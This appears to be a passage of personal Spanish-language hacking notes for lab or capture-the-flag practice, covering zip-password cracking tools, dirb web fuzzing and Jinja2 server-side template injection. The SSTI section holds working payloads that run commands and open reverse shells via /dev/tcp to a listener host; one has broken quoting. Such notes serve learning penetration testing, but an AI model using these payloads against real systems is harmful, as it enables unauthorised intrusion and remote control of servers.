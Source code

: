 ## 9.- A veces nos encontraremos con archivos comprimidos que tienen contraseña, podemos utilizar las herramientas de fcrackzip o JohnTheRipper

ruta del archivo para revisar el uso de las herramientas:

E:\Hacking\APUNTES\ARCHIVOS-COMPRIMIDOS-CON-CONTRASEÑA.txt

-------------------------------------------------------------------------------

## 10.- Descomprimir archivos:

.zip:

unzip archivo.zip

10.1.- Comprimir un archivo:

zip archivo.zip archivo.php

-------------------------------------------------------------------------------

## 11.- hacer fuzzing web para https:

Herramienta:

dirb

dirb http://172.17.0.2:443 /usr/share/seclists/Discovery/Web-Content/common.txt

-------------------------------------------------------------------------------

## 12.- SSTI -> SSTI (Server Side Template Injection)

buscamos la tecnologia con la que trabaja la web:

para este caso es flask 3.0.1 : ninja2

Descartamos con: 
<h1>Daniel</h1>

{{7*7}}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c 'bash -i >& /dev/tcp/172.17.0.3/443 0>&1').read() }}

Tenemos que ver la tecnología con que trabaja la web.

esto aplica para formularios, solo basta que un input sea vulnerable.

-------------------------------------------------------------------------------

## 13.- SQLInjection.
